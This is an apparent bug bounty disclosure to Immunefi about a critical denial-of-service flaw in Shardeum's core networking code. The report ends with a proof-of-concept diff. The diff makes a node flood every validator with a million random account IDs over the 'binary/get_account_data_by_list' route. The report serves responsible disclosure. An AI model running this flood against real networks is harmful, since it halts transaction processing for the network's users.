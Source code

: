 
# Complete shutdown of the transaction processing queue which can cause a fatal error and server shutdown

Submitted on Jul 11th 2024 at 04:13:20 UTC by @doxtopzhivago for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33086

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
The handler of the internal message 'binary/get_account_data_by_list' can cause transaction processing queue blocking because of the sharing the same  locking mechanism.

## Vulnerability Details
1. The handler of the internal message 'binary/get_account_data_by_list' is not setting correct bounds for length of the accounts list (Actually it is 2^32).
2. For each account the handler is executing app.getAccountDataByList which is calling AccountStorage.getAccount -> getAccountEntry -> creates and runs SQL query for each account ID. 
3. Also the handler is creating fifoLock('accountModification') which is used in the following functions: preApplyTransaction and commitConsensedTransaction. Which are two critical functions for transaction processing. If this fifoLock is occupied by this handler, transaction processing will be slowed down or even stopped.

So by sending a big list (2^32) of random accounts it can create a significant delay in transaction processing on the single node.

It also can be scaled so that whole network performance will fall down:

For incomming messages there is no check that remote IP address belongs to the node, only verification by signature. So private key from single standby node can be used by multiple senders.

In case of mass sending from multiple senders to all validators (list is open) attacker can completely stop transaction processing or significantly slow it down because the fifoLock is shared between transaction processing flow and the handler.

In my experiment it was causing onProcesssingQueueStuck and node became offline.

## Impact Details
I want to emphasize that it is not just a simple DOS, it is overloading bottleneck (fifoLock) which is also used in some critical functions in a system. By increasing number of accounts in a message you can impact transaction processing on target nodes or the whole network itself.



## Proof of Concept
Please use it only for the attacker node which should be connected to the network and be active:

diff --git a/src/shardus/index.ts b/src/shardus/index.ts
index 06184f15..71968a30 100644
--- a/src/shardus/index.ts
+++ b/src/shardus/index.ts
@@ -85,6 +85,13 @@ import SocketIO from 'socket.io'
 import { nodeListFromStates, queueFinishedSyncingRequest } from '../p2p/Join'
 import * as NodeList from '../p2p/NodeList'
 import { P2P } from '@shardus/types'
+import { GetAccountDataByListReq, serializeGetAccountDataByListReq } from '../types/GetAccountDataByListReq'
+import {
+  deserializeGetAccountDataByListResp,
+  GetAccountDataByListResp,
+} from '../types/GetAccountDataByListResp'
+import * as hackcrypto from 'crypto'
+const { Buffer } = require('buffer');
 
 
 // the following can be removed now since we are not using the old p2p code
@@ -725,7 +735,40 @@ class Shardus extends EventEmitter {
       this.stateManager.startProcessingCycleSummaries()
     })
     Self.emitter.on('active', (nodeId) => {
-      // this.io.emit('DATA', `NODE ACTIVE ${nodeId}`)
+      console.log("n00b We are in active", NodeList.othersByIdOrder)            
+      const garbageIds = [];
+      if (NodeList.othersByIdOrder && NodeList.othersByIdOrder.length > 0 ){
+        for (let i = 0; i < 1000000; i++) {
+          garbageIds.push(hackcrypto.randomBytes(32).toString('hex'));
+        }
+        const message = { accountIds: garbageIds }
+        setTimeout(async () => {
+          try {
+            const results = await Promise.all(NodeList.activeByIdOrder.map(node => {
+              if (node.id !== Self.id) {
+                this.p2p.askBinary<GetAccountDataByListReq, GetAccountDataByListResp>(
+                  node,
+                  InternalRouteEnum.binary_get_account_data_by_list,
+                  message,
+                  serializeGetAccountDataByListReq,
+                  deserializeGetAccountDataByListResp,
+                  {}, '', false, 10000
+                )
+              }            
+           }));
+          } catch (error) {
+            console.error('Error:', error);
+          }
+        }, 10000);
+      }    